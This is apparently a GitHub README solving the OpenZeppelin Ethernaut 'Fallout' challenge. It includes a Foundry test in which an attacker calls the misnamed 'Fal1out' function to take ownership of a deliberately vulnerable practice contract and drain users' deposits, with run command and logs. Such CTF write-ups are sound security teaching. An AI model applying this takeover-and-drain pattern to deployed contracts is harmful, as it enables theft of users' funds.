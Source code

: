# What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

# What You're Supposed to Do?

in `02-Fallout` Challenge, You Should Try To find a Way to Take Ownership of the Contract.

`02-Fallout` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)

# How did i Complete This Challenge?

Take a Look at `testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds` test at `Fallout.t.sol`:

```javascript

    modifier multipleAllocationsFromDifferentUsers {
        address[] memory users = new address[](10);
        for (uint i = 0; i < 10; i++) {
            users[i] = address(uint160(i + 1));
            vm.startPrank(users[i]);
            vm.deal(users[i], 1 ether);
            fallout.allocate{value: 1 ether}();
            vm.stopPrank();
        }
        _;
    }

    function testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds() external multipleAllocationsFromDifferentUsers {
        vm.startPrank(owner);
        
        fallout.Fal1out{value: 1 ether}();
        console2.log("Owner Address: ", owner);
        console2.log("Malicious Actor Address: ", maliciousActor);

        vm.stopPrank();

        vm.startPrank(maliciousActor);

        console2.log("Current Owner Before The Malicious Actor Comes an Steals Ownership from the Real Owner: ", fallout.owner());
        fallout.Fal1out{value: 1 ether}();
        console2.log("Current Owner After The Malicious Actor Comes an Steals Ownership from the Real Owner: ", fallout.owner());

        uint256 falloutContractBalanceBeforeMaliciousActorDrainFunds = address(fallout).balance;
        fallout.collectAllocations();
        uint256 maliciousActorAccountBalanceBeforeMaliciousActorDrainFunds = address(maliciousActor).balance;

        assertEq(falloutContractBalanceBeforeMaliciousActorDrainFunds, maliciousActorAccountBalanceBeforeMaliciousActorDrainFunds);
        assertNotEq(owner, fallout.owner());
        assertEq(maliciousActor, fallout.owner());

        vm.stopPrank();
    }
```

in `testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds` test, first some Users Allocate their Money to this Smart Contract (multipleAllocationsFromDifferentUsers modifier).

Then `owner` takes the ownership of the contract by calling `Fal1out` function. After that, an Malicious Actor Takes ownership of the contract by Doing the same thing, then Drains the
Contract Funds with `collectAllocations` function.

You can run the Test by running this Command: (Required to Have Foundry Installed)

```javascript
    forge test --match-test testMaliciousActorTakesOwnershipFromOwnerThenDrainsFunds -vvvv
```

take a Look at first Few Lines to Find the `Logs`:

```javascript
    Logs:
        Owner Address:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Malicious Actor Address:  0x195Ef46F233F37FF15b37c022c293753Dc04A8C3
        Current Owner Before The Malicious Actor Comes an Steals Ownership from the Real Owner:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Current Owner After The Malicious Actor Comes an Steals Ownership from the Real Owner:  0x195Ef46F233F37FF15b37c022c293753Dc04A8C3
```
